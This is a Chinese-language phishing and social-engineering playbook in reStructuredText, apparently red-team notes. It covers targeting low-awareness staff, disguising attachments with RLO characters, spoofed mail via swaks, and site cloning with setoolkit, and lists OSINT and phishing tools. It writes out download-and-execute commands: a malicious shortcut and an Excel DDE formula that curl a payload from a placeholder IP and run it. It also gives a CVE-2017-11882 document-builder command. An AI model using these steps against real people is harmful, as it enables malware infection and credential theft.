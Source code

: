 社会工程学
========================================

思路
----------------------------------------

基本流程
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 寻找大鱼
	目标一般包括：HR、销售、文员等安全意识比较薄弱的人员，以及运维、开发等掌握重要资源的人员。
+ 制作鱼饵
	一个高质量鱼饵一般分为两部分，一个是邮件内容更加的逼真可信，另一个是邮件的附件尽可能伪装的正常。
+ 抛竿
	最后把鱼竿抛出后就可以坐等鱼上钩了。

制作鱼饵
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ RLO文件伪装
	- 选择文件，F2重命名
	- 右键菜单，插入Unicode控制字符，选择RLO
	- 输入gnp后
	- 使用resourcehacker更换图片图标
+ 快捷方式
	- 生成木马exe文件
	- 创建快捷方式：``C:\Windows\System32\cmd.exe /k curl http://xxx.xxx.xxx.xxx/exe/artifact.exe --output C:\Windows\temp\win.exe && C:\Windows\temp\win.exe``
	- 更换一个系统图标
+ Word宏病毒
+ Excel注入
	+ 弹计算器：``=cmd| '/c calc'! '!A1'``
	+ 上线木马：``=cmd| '/c curl http://xxx.xxx.xxx.xxx/beacon.exe --output C:\Windows\temp\win.exe && C:\Windows\temp\win.exe' ! 'A1'``
+ CVE-2017-11882
	- poc：``https://github.com/Ridter/CVE-2017-11882``
	- 生成病毒word文件：``python2 Command109b_CVE-2017-11882.py -c "cmd.exe /c calc.exe" -o test.doc``

邮件钓鱼
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 基础
	- SPF验证
		+ SPF是Sender Policy Framework 的缩写，SPF 记录实际上是服务器的一个 DNS 记录。
		+ 一种以IP地址认证电子邮件发件人身份的技术。接收邮件方会首先检查域名的SPF记录，来确定发件人的IP地址是否被包含在SPF记录里面。
	- 检查SPF
		+ ``nslookup -type=txt qq.com``
	- SPF绕过
+ Swaks
	- 测试连通性：``swaks --to 123@qq.com``
	- 钓鱼邮件：``swaks --to 目标邮箱 -f xxx@163.com --data test.eml --server smtp.163.com -p 25 -au xxx@163.com -ap xxx邮箱密码``
+ Gophish
	-  项目地址：``https://github.com/gophish/gophish``
+ 缺点
	- 发出的邮件会显示由xxx@163.com代发
	- 可以由第三方平台代发：smtp2go，SendCloud

网站克隆
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ setoolkit
	- Spear-Phishing Attack Vectors【鱼叉式网络钓鱼攻击】
	- Website Attack Vectors【web网站式攻击-钓鱼(常用)】
		+ Java Applet Attack Method【java小程序攻击】
		+ Metasploit Browser Exploit Method【Metasploit浏览器利用】
		+ Credential Harvester Attack Method【凭证攻击(常用)】
			- Web Templates【web模板】
			- Site Cloner【克隆网站】
				默认IP，然后输入被克隆网站，登录记录就会被记录。
			- Custom Import【自定义导入】
		+ Tabnabbing Attack Method【Tabnabbing攻击】
		+ Web Jacking Attack Method【web劫持】
		+ Multi-Attack Web Method【web多重攻击】
		+ HTA Attack Method【HTA攻击】
			- Web Templates【web模板】
			- Site Cloner【克隆网站】
				输入克隆的站点，监听ip和端口默认就行，最后还需选择一个攻击载荷 Meterpreter Reverse TCP
			- Custom Import【自定义导入】
	- Infectious Media Generator【传染性木马】
	- Create a Payload and Listener【创建payload和监听器】
	- Mass Mailer Attack【邮件群发攻击】
	- Arduino-Based Attack Vector【基于安卓的攻击】
	- Wireless Access Point Attack Vector【wifi攻击】
	- QRCode Generator Attack Vector【生成二维码(就普通二维码)】
	- Powershell Attack Vectors【Powershell攻击】
	- Third Party Modules【第三方模块】
+ nginx反向代理克隆镜像网站
	- 原理：利用nginx反向代理克隆生成镜像网站就是通过反向代理将请求分发到一个不属于我们的网站去处理，最后将处理的结果再通过nginx返回给用户。

fake flash
----------------------------------------
- `Fake-flash <https://github.com/r00tSe7en/Fake-flash.cn>`_

OSINT
----------------------------------------
- `osint <http://osintframework.com/>`_
- `osint git <https://github.com/lockfale/OSINT-Framework>`_
- `OSINT-Collection <https://github.com/Ph055a/OSINT Collection>`_
- `trape <https://github.com/jofpin/trape>`_
- `Photon <https://github.com/s0md3v/Photon>`_
	+ 官方帮助:``https://github.com/s0md3v/Photon/wiki/Usage#dumping-dns-data``
	+ 基本用法:``python photon.py -u http://example.com``
	+ 克隆网站:``python photon.py -u "http://example.com" --clone``
	+ Depth of crawling:``-l or --level | Default: 2``
	+ Number of threads:``-t or --threads | Default: 2``
	+ Delay between each HTTP request:``-d or --delay | Default: 0``
	+ timeout:``--timeout | Default: 5``
	+ Cookies:``python photon.py -u "http://example.com" -c "PHPSESSID=u5423d78fqbaju9a0qke25ca87"``
	+ Specify output directory:``-o or --output | Default: domain name of target``
	+ Verbose output:``-v or --verbose``
	+ Exclude specific URLs:``python photon.py -u "http://example.com" --exclude="/blog/20[17|18]"``
	+ Specify seed URL(s):``python photon.py -u "http://example.com" --seeds "http://example.com/blog/2018,http://example.com/portals.html"``
	+ Specify user-agent(s):``python photon.py -u "http://example.com" --user-agent "curl/7.35.0,Wget/1.15 (linux-gnu)"``
	+ Custom regex pattern:``python photon.py -u "http://example.com" --regex "\d{10}"``
	+ Export formatted result:``python photon.py -u "http://example.com" --export=json``
	+ Use URLs from archive.org as seeds:``python photon.py -u "http://example.com" --wayback``
	+ Skip data extraction:``python photon.py -u "http://example.com" --only-urls``
	+ Update:``python photon.py --update``
	+ Extract secret keys:``python photon.py -u http://example.com --keys``
	+ Piping (Writing to stdout):``python photon.py -u http://example.com --stdout=custom | resolver.py``
	+ Ninja Mode:``--ninja``
	+ Dumping DNS data:``python photon.py -u http://example.com --dns``
- `pockint <https://github.com/netevert/pockint>`_

钓鱼
----------------------------------------
- `spoofcheck <https://github.com/BishopFox/spoofcheck>`_
- `gophish <https://github.com/gophish/gophish>`_
- `SocialFish <https://github.com/UndeadSec/SocialFish>`_
- `WiFiDuck <https://github.com/spacehuhn/WiFiDuck>`_ Bad USB

wifi
----------------------------------------
- `wifiphisher <https://github.com/wifiphisher/wifiphisher>`_
- `evilginx <https://github.com/kgretzky/evilginx>`_
- `mana <https://github.com/sensepost/mana>`_
- `pwnagotchi <https://github.com/evilsocket/pwnagotchi>`_

综合框架
----------------------------------------
- `theHarvester <https://github.com/laramies/theHarvester>`_
- `Th3inspector <https://github.com/Moham3dRiahi/Th3inspector>`_
- `ReconDog <https://github.com/s0md3v/ReconDog>`_
